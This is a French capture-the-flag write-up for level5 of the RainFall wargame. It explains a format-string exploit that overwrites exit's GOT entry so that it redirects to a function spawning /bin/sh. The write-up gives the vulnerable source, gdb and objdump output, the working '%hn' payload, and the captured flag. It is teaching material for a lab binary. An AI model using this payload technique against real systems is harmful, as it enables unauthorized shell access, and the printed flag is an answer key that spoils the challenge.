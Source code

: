 Read also: [./Resources/README.md](./Resources/README.md)

# Source

```c
void o(void) {
  system("/bin/sh");
  _exit(1);
}

void n(void) {
  char local_20c [520];
 
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  exit(1);
}

void main(void) {
  n();
  return;
}
```

# Explication

On doit appeler la fonction `o`, pour faire cela, d’après les documents fournis en ressource, on doit récupérer
l’adresse d’`exit` (de la libc) dans la Global Offset Table pour ensuite essayer de modifier cette adresse
vers la fonction qu’on souhaite :

```
(gdb) p o
$1 = {<text variable, no debug info>} 0x80484a4 <o>

level5@RainFall:~$ (python -c "print('aaaa%p %p %p %p %p %p %p %p')"; cat) | ./level5
aaaa0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161 0x25207025 0x70252070 0x20702520 0x25207025
```

Ressources :

 - https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf 
 - https://crypto.stanford.edu/cs155old/cs155-spring08/papers/formatstring-1.2.pdf
   ![6.1.1 GOT overwrite](https://i.imgur.com/hnl9VDZ.png)

```
level5@RainFall:~$ objdump –dynamic-reloc level5

level5:   file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE           VALUE
08049814 R_386_GLOB_DAT __gmon_start__
08049848 R_386_COPY     stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

On récupère l’adresse de la fonction `exit`, on obtient :

```
level5@RainFall:~$ (python -c 'print("\x38\x98\x04\x08%33952x%4$hn")'; cat) | ./level5
```

Avec `h`, on réécrit seulement les 2 derniers bits (= short int) au lieu des 4 d’un int par ceux correspondant
à la fonction `o` (car les deux premiers bits de `exit` sont les même que la fonction `o`).

On obtient donc le flag !

```
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
